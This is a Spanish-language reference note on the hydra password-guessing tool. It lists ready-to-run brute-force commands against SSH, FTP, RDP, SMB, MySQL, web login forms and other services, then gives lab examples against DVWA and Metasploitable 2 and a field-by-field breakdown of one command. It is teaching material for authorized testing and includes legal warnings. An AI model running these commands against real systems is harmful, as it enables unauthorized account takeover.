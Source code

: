 ![[header_ethical_hacking.jpg]]
# Comando `hydra`

---
**Tags:** #info #hacking #tool #kali #linux #bash

> [!info] Volver a [[Home]] | [[Ciberseguridad]] 

---
## Descripción

El comando `hydra` es una herramienta de prueba de penetración diseñada para realizar ataques de fuerza bruta y diccionario en diversos protocolos y servicios, con el objetivo de identificar contraseñas débiles o vulnerabilidades de autenticación. `hydra` es una herramienta versátil y ampliamente utilizada en el ámbito de la seguridad cibernética para evaluar la robustez de los sistemas y aplicaciones.

`hydra` se puede utilizar con una variedad de protocolos y servicios, y ofrece opciones avanzadas para personalizar los ataques y adaptarse a las necesidades específicas. Sin embargo, es importante recordar que realizar pruebas de fuerza bruta sin permiso adecuado puede ser ilegal y causar daños, por lo que es crucial utilizar esta herramienta de manera ética y en entornos autorizados.

## Casos de Uso y Ejemplos

1. **Ataque de Fuerza Bruta en SSH:**
   Intenta adivinar contraseñas de una cuenta SSH en un servidor remoto:

   ```bash
   hydra -l username -P /path/to/passwords.txt ssh://target_ip
   ```

2. **Ataque de Diccionario en FTP:**
   Realiza un ataque de diccionario en un servidor FTP:

   ```bash
   hydra -l username -P /path/to/passwords.txt ftp://target_ip
   ```

3. **Ataque de Fuerza Bruta en HTTP POST:**
   Intenta adivinar una contraseña en un formulario web utilizando solicitudes HTTP POST:

   ```bash
   hydra -l username -P /path/to/passwords.txt http-post://target_url/form:username=^USER^&password=^PASS^:F=Invalid
   ```

4. **Ataque de Fuerza Bruta en RDP:**
   Prueba contraseñas en un servicio de Escritorio Remoto (RDP):

   ```bash
   hydra -t 4 -l username -P /path/to/passwords.txt rdp://target_ip
   ```

5. **Ataque de Fuerza Bruta en MySQL:**
   Intenta adivinar la contraseña de una cuenta de MySQL:

   ```bash
   hydra -l username -P /path/to/passwords.txt mysql://target_ip
   ```

6. **Ataque de Fuerza Bruta en SMB (Windows):**
   Realiza un ataque de fuerza bruta en el protocolo SMB de Windows:

   ```bash
   hydra -l username -P /path/to/passwords.txt smb://target_ip
   ```

7. **Ataque de Fuerza Bruta en Telnet:**
   Intenta adivinar contraseñas en el protocolo Telnet:

   ```bash
   hydra -l username -P /path/to/passwords.txt telnet://target_ip
   ```

8. **Ataque de Fuerza Bruta en VNC:**
   Prueba contraseñas en el protocolo VNC:

   ```bash
   hydra -l username -P /path/to/passwords.txt vnc://target_ip
   ```

9. **Ataque de Fuerza Bruta en Servicio POP3:**
   Intenta adivinar contraseñas en el servicio POP3 (correo electrónico):

   ```bash
   hydra -l username -P /path/to/passwords.txt pop3://target_ip
   ```

10. **Ataque de Fuerza Bruta en SMTP:**
    Prueba contraseñas en el protocolo SMTP (correo saliente):

   ```bash
   hydra -l username -P /path/to/passwords.txt smtp://target_ip
   ```

11. **Ataque de Fuerza Bruta en HTTP Basic Authentication:**
    Realiza un ataque en autenticación HTTP básica:

   ```bash
   hydra -l username -P /path/to/passwords.txt http-get://target_url
   ```

12. **Ataque de Fuerza Bruta en LDAP:**
    Intenta adivinar contraseñas en el protocolo LDAP:

   ```bash
   hydra -l username -P /path/to/passwords.txt ldap2://target_ip
   ```

13. **Ataque de Fuerza Bruta en HTTP POST con Cookies:**
    Realiza un ataque de fuerza bruta en una solicitud HTTP POST con cookies:

   ```bash
   hydra -l username -P /path/to/passwords.txt http-post://target_url/form:username=^USER^&password=^PASS^:F=Invalid -C /path/to/cookies.txt
   ```

14. **Ataque de Fuerza Bruta en RADIUS:**
    Prueba contraseñas en el protocolo RADIUS (autenticación en red):

   ```bash
   hydra -l username -P /path/to/passwords.txt radius://target_ip
   ```

15. **Ataque de Fuerza Bruta en SNMP:**
    Intenta adivinar contraseñas en el protocolo SNMP (monitoreo de red):

   ```bash
   hydra -L /path/to/usernames.txt -P /path/to/passwords.txt snmp://target_ip
   ```

16. **Ataque de Fuerza Bruta en SSH utilizando una Lista de Usuarios:**
    Prueba contraseñas en SSH utilizando una lista de usuarios:

   ```bash
   hydra -L /path/to/usernames.txt -P /path/to/passwords.txt ssh://target_ip
   ```

Recuerda que el uso de `hydra` debe realizarse de manera ética y en entornos controlados con el permiso adecuado. Utilizar esta herramienta en sistemas en producción sin autorización puede tener consecuencias legales y de seguridad.

---
## Otros ejemplos contra DVWA

Por supuesto, aquí tienes más ejemplos de cómo utilizar la herramienta `hydra` en combinación con los entornos DVWA (Damn Vulnerable Web Application) y Metasploitable 2:

**Fuerza Bruta en DVWA:**

1. **Fuerza Bruta en Login con DVWA:**
   Realiza un ataque de fuerza bruta en el formulario de inicio de sesión de DVWA:

   ```bash
   hydra -l admin -P /path/to/passwords.txt 192.168.1.10 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
   ```

2. **Fuerza Bruta en DVWA con CSRF Token:**
   Prueba contraseñas en DVWA, donde se requiere un token CSRF:

   ```bash
   hydra -l admin -P /path/to/passwords.txt 192.168.1.10 http-post-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login&user_token=YOUR_CSRF_TOKEN:Username and/or password incorrect."
   ```

**Fuerza Bruta en Metasploitable 2:**

3. **Fuerza Bruta en SSH de Metasploitable 2:**
   Intenta adivinar contraseñas en el servicio SSH de Metasploitable 2:

   ```bash
   hydra -l msfadmin -P /path/to/passwords.txt 192.168.1.20 ssh
   ```

4. **Fuerza Bruta en FTP de Metasploitable 2:**
   Realiza un ataque de fuerza bruta en el servicio FTP de Metasploitable 2:

   ```bash
   hydra -l msfadmin -P /path/to/passwords.txt 192.168.1.20 ftp
   ```

5. **Fuerza Bruta en Telnet de Metasploitable 2:**
   Prueba contraseñas en el protocolo Telnet de Metasploitable 2:

   ```bash
   hydra -l msfadmin -P /path/to/passwords.txt 192.168.1.20 telnet
   ```

6. **Fuerza Bruta en RDP de Metasploitable 2:**
   Intenta adivinar contraseñas en el servicio de Escritorio Remoto (RDP) de Metasploitable 2:

   ```bash
   hydra -l msfadmin -P /path/to/passwords.txt 192.168.1.20 rdp
   ```

Estos ejemplos te proporcionan una idea de cómo puedes utilizar `hydra` en combinación con los entornos DVWA y Metasploitable 2 para probar la seguridad de servicios y aplicaciones en entornos controlados. Siempre ten en cuenta que realizar pruebas de fuerza bruta sin el permiso adecuado es ilegal y puede tener consecuencias graves.

---
## Ejemplo de comando contra DVWA

El comando que proporcionaste utiliza la herramienta Hydra para realizar un ataque de fuerza bruta a través de una solicitud HTTP POST en un formulario de inicio de sesión. A continuación, te explico cada componente del comando:

- `hydra`: Es el comando principal de la herramienta Hydra, que se utiliza para realizar ataques de fuerza bruta y diccionario.

- `10.0.2.8`: Es la dirección IP del objetivo al que se dirigirá el ataque.

- `-l admin`: Especifica el nombre de usuario que se utilizará en el ataque. En este caso, el nombre de usuario es "admin".

- `-P claves.txt`: Indica el archivo de texto que contiene las contraseñas que se probarán durante el ataque. Cada línea del archivo representa una contraseña.

- `http-post-form`: Especifica que se realizará un ataque de fuerza bruta utilizando una solicitud HTTP POST en un formulario.

- `"/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=failed"`: Esta parte del comando define la estructura de la solicitud HTTP POST que se utilizará en el ataque. Aquí está desglosado:

  - `"/dvwa/login.php"`: Es la URL del formulario de inicio de sesión al que se dirigirá la solicitud POST.
  
  - `username=^USER^&password=^PASS^&Login=Login`: Son los campos del formulario y sus valores. `^USER^` y `^PASS^` son marcadores que Hydra reemplazará con el nombre de usuario y la contraseña en cada intento.
  
  - `F=failed`: Indica cómo detectar un inicio de sesión fallido. En este caso, se busca la cadena "failed" en la respuesta.

En resumen, este comando utiliza Hydra para realizar un ataque de fuerza bruta en un formulario de inicio de sesión en la URL `/dvwa/login.php`. Se intentarán diferentes contraseñas del archivo `claves.txt` para el usuario "admin", y se buscará la cadena "failed" en las respuestas para identificar intentos fallidos de inicio de sesión.

---


